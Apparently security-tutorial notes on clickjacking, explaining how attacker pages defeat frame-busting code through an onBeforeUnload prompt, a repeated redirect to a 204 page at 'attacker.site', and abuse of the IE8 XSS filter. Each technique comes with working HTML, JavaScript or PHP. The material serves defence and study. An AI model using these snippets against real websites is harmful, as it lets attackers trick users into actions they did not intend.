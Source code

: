 ## OnBeforeUnload Event
* The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target’s frame busting attempt.

* The attacker can use this attack by registering an unload event on the top page using the following example code:
 ```html
 <h1>www.fictitious.site</h1>
 <script>
     window.onbeforeunload = function()
     {
         return " Do you want to leave fictitious.site?";
     }
 </script>
 <iframe src="http://target site">
 ```

* The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a _"HTTP/1.1 204 No Content"_ header.

<br>_204 page:_
```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```
_Attacker's Page_
```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter 
This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request’s parameters.
  ```html
  <script>
      if ( top != self )
      {
          top.location=self.location;
      }
  ```